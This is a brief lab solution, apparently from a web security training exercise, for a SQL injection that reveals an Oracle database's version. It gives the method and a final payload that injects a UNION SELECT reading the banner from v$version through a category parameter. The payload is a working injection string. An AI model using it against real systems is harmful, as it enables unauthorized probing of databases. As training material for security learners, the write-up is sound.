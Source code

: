 # Lab 7: SQL Injection Attack, Querying the Database Type and Version on Oracle

* **Solution**: Inject a UNION query to retrieve the Oracle version from v$version in a string-compatible column.
* **Final Payload**: category=Gifts' UNION SELECT banner, NULL FROM v$version --